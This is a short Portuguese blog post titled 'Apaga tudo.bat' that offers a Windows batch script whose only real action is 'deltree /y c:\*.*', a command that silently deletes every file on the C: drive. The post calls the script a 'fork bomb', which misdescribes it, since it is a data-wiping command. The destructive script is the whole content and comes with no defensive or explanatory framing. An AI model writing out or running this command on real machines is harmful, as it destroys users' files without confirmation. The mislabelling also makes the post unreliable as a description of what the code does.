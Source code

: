 # Apaga tudo.bat

Fork bomb para Windows

```
@echo off

c:

deltree /y c:\*.\*
```


---

> Autor: Sidnei Weber  
> URL: https://sidneiweber.com.br/apaga-tudobat/  

